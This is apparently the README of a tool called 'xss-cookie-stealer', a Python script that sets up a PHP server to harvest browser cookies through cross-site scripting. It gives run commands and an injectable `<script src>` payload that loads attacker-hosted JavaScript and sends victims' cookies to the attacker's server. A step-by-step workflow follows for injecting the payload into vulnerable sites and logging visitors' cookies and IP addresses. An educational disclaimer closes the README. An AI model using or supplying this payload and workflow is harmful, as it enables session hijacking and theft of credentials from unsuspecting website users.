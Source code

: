 # xss-cookie-stealer
Simple Python script that will set up a PHP server for stealing cookies - and provided the payload needed. 


# Web Server Setup for Cookie Stealing via XSS

This Python script automates the process of setting up a simple PHP server to capture cookies via Cross-Site Scripting (XSS). The script generates an XSS payload, creates a web server directory, and runs a PHP server that logs victim cookies to a file.

## Features
- Generates an XSS payload for `<script>` injection.
- Sets up a PHP server that captures cookies from victims.
- Logs the cookies to `cookies.txt` along with the victim's IP address.
- Automatically creates the necessary files (`script.js` and `index.php`).

## Prerequisites
- Python 3.x
- PHP (required to run the web server)
- `sudo` privileges (required to run PHP on port 80)

## Usage

### Display Help
You can display the help message by running:

```bash
python3 xss-cookie-stealer.py -h
```

### Run the Script
To generate the payload and set up the PHP server, provide your IP address as an argument:

```bash
python3 xss-cookie-stealer.py <YOUR_IP>
```

Example:

```bash
python3 create_payload.py 192.168.1.10
```

### Payload
After running the script, the XSS payload will be echoed to the terminal. You can inject this payload into a vulnerable web page to capture cookies:

```html
<script src="http://<YOUR_IP>/script.js"></script>
```

### Files Created
The script will create the following files in the `web-server` directory:
- **`index.php`**: Handles the incoming requests and logs cookies to `cookies.txt`.
- **`script.js`**: Sends the victim's cookies to the PHP script.

### Start PHP Server
The script will start a PHP server on port 80 to host the web server:

```bash
sudo php -S 0.0.0.0:80 -t web-server
```

### Log Output
Captured cookies and victim IP addresses will be saved in the `cookies.txt` file inside the `web-server` directory.

## Example Workflow

1. Run the script with your IP address:
   ```bash
   python3 create_payload.py 192.168.1.10
   ```

2. Inject the payload in a vulnerable website:
   ```html
   <script src="http://192.168.1.10/script.js"></script>
   ```

3. Any cookies sent by users visiting the vulnerable page will be logged in `cookies.txt` along with their IP address.

## License
This project is for educational purposes only. Ensure that you have permission before using this script on any system or application.

---

**Disclaimer**: This script is intended for ethical purposes only, such as penetration testing within legal and authorized boundaries. Misuse of this tool for illegal activities is strictly prohibited.
